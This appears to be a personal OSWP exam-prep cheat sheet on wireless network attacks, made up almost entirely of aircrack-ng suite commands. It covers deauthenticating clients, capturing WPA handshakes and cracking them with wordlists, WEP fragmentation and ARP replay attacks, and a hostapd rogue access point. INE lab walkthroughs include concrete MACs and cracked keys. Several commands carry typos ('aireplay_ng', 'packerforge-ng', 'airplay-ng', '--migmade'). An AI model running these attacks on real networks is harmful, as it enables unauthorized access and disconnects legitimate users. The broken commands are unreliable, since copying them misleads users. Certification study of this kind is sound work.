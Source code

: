 # oswp
oswp-prep

airmon-ng check
airmon-ng check kill

airmon-ng start <interface>
airmon-ng stop <interface>

iw dev <interface> info
iwconfig <interface>


airodump-ng -c <cahnnel_number> <interface>

airodump-ng -c <cahnnel_number> --bssid <mac_address_ap> <interface>
airodump-ng -c <cahnnel_number> -w <saved_file_name> --output-format csv,pcap <interface>

aireplay-ng 
              --deauth       --> -0
              --fakeauth     --> -1
              --interactive  --> -2
              --arpplay      --> -3
              --chopchop     --> -4
              --fragment     --> -5
              --caffe-latte  --> -6
              --cfrag        --> -7
              --migmade      --> -8
              --test         --> -9

aireplay-ng -9 <interface>
aireplay-ng -9 -e <wifi_name> -a <mac_address_ap> <interface>
aireplay-ng -9 -e <wifi_name> -a <mac_address_ap> -D <interface>

aireplay-ng -9 -i <interface1> <interface2>


aircrack-ng -S

airdecap-ng
airdecap-ng -b <mac_address_ap> <cap_file_name.cap> ---> cap_file_name_dec.cap


airgraph-ng (CAPR)
airgraph-ng -i <file.csv> -o capr.png -g CAPR
ristretto capr.png


4 way handsake 

AUTH 
    -> PSK
    -> GMT

airodump-ng -c <cahnnel_number> -w <file_name> --essid <wifi_name> --bssid <mac_address_ap> <interface>
aireplay-ng -0 1 -a <mac_address_ap> -c <client_mac_address> <interface>
aircrack-ng -w <wordlist_file> -e <wifi_name> -b <mac_address_ap> <captured_handsake_file>

airdecap-ng -b <mac_address_ap> -e <wifi_name> -p <password> <captured_file>

/usr/share/wordlist
/usr/share


JtR
Crunch
RsMangler


john --wordlist=<file> --rules --stdout | aircrack-ng -e <wifi_name> -w - <captured_file>

hashcat -m 2500
cap2hccapx


WEP Example
-----------

airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay_ng -1 0 -e <wifi_name> -a <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aireplay-ng -5 -b <mac_address_ap> -h <fake_client_mac_or_station> <interface>

packerforge-ng -0 -a <mac_address_ap> -h <fake_client_mac_or_station> -I <ip> -k <ip_broadcast> -y fragment.xor -w <captured_file_name>

airplay-ng -2 -r <captured_file_name> <interface>

WEP Example 2
-------------

airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay_ng -1 0 -e <wifi_name> -a <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aireplay_ng -1 0 -e <wifi_name> -y <file_xor> -h <fake_client_mac_or_station> <interface>

aireplay-ng --arpplay -b <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aircrack-ng -0 <captured_file>


WPA Example 1
-------------
airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay-ng -0 1 -a <mac_address_ap> -c <client_mac_address> <interface>

aircrack-ng -0 -w <wordlist> <captured_file_name>



INE_Attack_defense_Example_WEP_1
--------------------------------
iw dev

iw dev wlan0 setup monitor none

airodump-ng wlan0

airodump-ng wlan0 -c 6 -w capture

aireplay-ng -3 -b B8:0D:F7:D5:79:F9 -h 02:00:00:00:09:00 wlan0

aircrack-ng capture-01.cap

**WPA Supplicant Configuration**
network={
  ssid="EpicMediaCorp"
  key_mgmt=NONE
  wep_key0="14332"
  wep_tx_keyidx=0
}
**wpa_supplicant -B -Dnl80211 -iwlan1 -c supplicant.conf**
**dhclient -v wlan1**



INE_Attack_defense_Example_WPA-PSK_1
------------------------------------
iw dev

airodump-ng wlan0 -c 6 -w test

aireplay-ng -0 100 -a A2:E9:68:D3:03:10 wlan0

aircrack-ng -w 100-common-passwords.txt test-01.cap

**WPA Supplicant Configuration**
network={
  ssid="NewGenAirways"
  scan_ssid=1
  key_mgmt=WPA-PSK
  psk="jasmine1"
}
**wpa_supplicant -B -Dnl80211 -iwlan1 -c supplicant.conf**
**dhclient -v wlan1**


INE_Attack_defense_Example_AP-less_WPA2-PSK_1
----------------------------------------------
iw dev

airodump-ng wlan0 -c 6 -w capture

**Fake_ap.conf content:**
  interface=wlan1
  hw_mode=g
  channel=6
  driver=nl80211
  ssid=Woodwork_LLP
  auth_algs=1
  wpa=2
  wpa_key_mgmt=WPA-PSK
  rsn_pairwise=CCMP
  wpa_passphrase=123456789
  
**hostapd -d fake_ap.conf**

aircrack-ng -w 100-common-passwords.txt capture-01.cap

